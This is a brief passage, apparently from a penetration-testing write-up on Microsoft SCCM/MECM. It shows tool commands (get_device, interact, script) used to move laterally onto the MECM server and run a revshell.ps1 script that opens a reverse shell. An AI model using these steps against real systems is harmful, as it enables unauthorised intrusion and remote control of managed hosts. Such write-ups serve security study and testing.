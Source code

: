 ![get_system_on_client.png](/assets/blog/SCCM/get_system_on_client.png)

- Use it to move on MECM computer too and get a revshell on the MECM computer

```bash
>> get_device MECM
...
ResourceId: 16777219 
...
>> interact 16777219
>> script /workspace/revshell.ps1
```
